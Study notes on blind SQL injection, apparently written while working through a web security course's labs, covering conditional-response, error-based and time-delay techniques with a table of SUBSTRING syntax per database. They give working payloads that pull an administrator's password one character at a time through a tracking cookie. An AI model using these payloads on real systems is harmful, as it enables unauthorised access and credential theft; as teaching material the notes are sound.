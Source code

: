 Blind SQL injection arises when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.
With blind SQL injection vulnerabilities, many techniques such as UNION attacks, are not effective because they rely on being able to see the results of the injected query within the application's responses. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.

## Exploiting blind SQL injection by triggering conditional responses

ascii code of m = 109,t = 116, s = 115, 8 = 56

```
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

```sql
…xyz' AND '1'='1                 => true

…xyz' AND '1'='2                 => false
```

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```

This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```

This returns the "Welcome back" message, thereby confirming that the first character of the password is `s`

The *`SUBSTRING`* function is called *`SUBSTR`* on some types of database.

| Database type | Substring                   |
| ------------- | --------------------------- |
| Oracle        | `SUBSTR('foobar', 4, 2)`    |
| Microsoft     | `SUBSTRING('foobar', 4, 2)` |
| PostgreSQL    | `SUBSTRING('foobar', 4, 2)` |
| MySQL         | `SUBSTRING('foobar', 4, 2)` |

Lab : -> Blind SQL injection with conditional responses [[1_condtional_response|conditional response)

## Inducing conditional responses by triggering SQL errors

suppose that two requests are sent containing the following `TrackingId` cookie values in turn:

```sql
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

These inputs use the `CASE` keyword to test a condition and return a different expression depending on whether the expression is true
_first input, the `CASE` expression evaluates to `'a'`, which does not cause any error.
second input, it evaluates to `1/0`, which causes a divide-by-zero error. Assuming the error causes some difference in the application's HTTP response_

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:

```sql
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

lab : -> Blind SQL injection with [[2_conditional errors|conditional errors)

## Inducing conditional responses by triggering SQL errors

```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

The first of these inputs will not trigger a delay, because the condition `1=2` is false.
The second input will trigger a delay of 10 seconds, because the condition `1=1` is true.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:

```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

Lab: -> Blind SQL injection with [[3_time_delay|time delays)

## Exploiting blind SQL injection using out-of-band (OAST techniques)
